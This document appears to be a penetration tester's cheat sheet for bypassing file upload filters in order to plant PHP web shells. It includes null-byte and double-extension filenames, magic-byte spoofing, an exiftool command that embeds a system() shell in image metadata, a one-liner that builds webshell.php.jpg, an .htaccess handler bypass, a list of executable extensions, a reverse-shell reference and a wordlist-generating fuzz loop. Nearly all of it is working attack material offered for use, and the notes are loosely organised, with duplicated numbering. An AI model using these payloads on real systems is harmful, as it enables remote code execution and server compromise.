

1. null byte exploit%00.png
2. image.png.php // double the extension
3. unusual extensions pHP
3. unusual extensions pHP
4. If they apply, the check the previous extensions. Also test them using some uppercase letters: pHp, .pHP5, .PhAr ...
5. file.php%00.png%00.jpg // another layer
6. Bypass magic number check by adding at the beginning of the file the bytes of a real image
7. introduce the shell inside the metadata:
``` bash
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' random.png
```
7. open the file in vim and a couple lines down insert php code
```php
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```
mx=320;my=256;head -c "$((3*mx*my))" /dev/urandom | convert -depth 8 -size "${mx}x${my}" RGB:- random.png
GIF89a
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
Valid magic bytes for jg/jpeg
# in apache doc for example a file can have multiple weak extension
## if misconfigured e.g forget $ on regex in conf
<FilesMatch ".+\.ph(ar|p|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
#exploit
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?=`$_GET[0]`?>' >> webshell.php.jpg
## extensions that allow php extensions
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.phar
.inc
## htaccess bypass
###upload .htaccess allows the creation of new extensions that will execute php
### file .htaccess
AddType application/x-httpd-php .evil
# arbitrary file upload
## find extension : wappalyzer / index.ext
/opt/useful/seclists/Web-Shells
<?php system($_REQUEST['cmd']); ?>
## https://github.com/pentestmonkey/php-reverse-shell
# disable front(-end
e.g <input type="file" xxx accept=".php">
## blacklist bypass (fuzzing extensions)
# code for whitelist bypass via character injection
## e.g windows IIS shell.jpg:.aspx
## e.g PHP apache shell.php%00.jpg (versions earlier then 5.x
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
for ext in '.php' '.phps'; do
echo "shell$char$ext.jpg" >> wordlist.txt
echo "shell$ext$char.jpg" >> wordlist.txt
echo "shell.jpg$char$ext" >> wordlist.txt
echo "shell.jpg$ext$char" >> wordlist.txt
done
done
